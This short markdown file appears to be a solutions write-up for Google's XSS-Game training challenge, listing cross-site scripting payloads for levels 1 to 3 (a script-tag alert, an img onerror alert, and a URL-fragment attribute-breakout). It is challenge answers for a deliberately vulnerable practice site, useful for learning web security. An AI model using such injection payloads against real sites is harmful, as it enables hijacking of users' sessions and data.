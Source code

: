 # XSS-Game by Google

### Level 1
```
https://xss-game.appspot.com/level1/frame?query=<script>alert("HACKED")</script>
```

### Level 2
```
<img src="asdf" onerror='alert("HACKED")' />
```

### Level 3
```
https://xss-game.appspot.com/level3/frame/#"/><img src='asdf' onerror='alert("HACKED")'/>
```
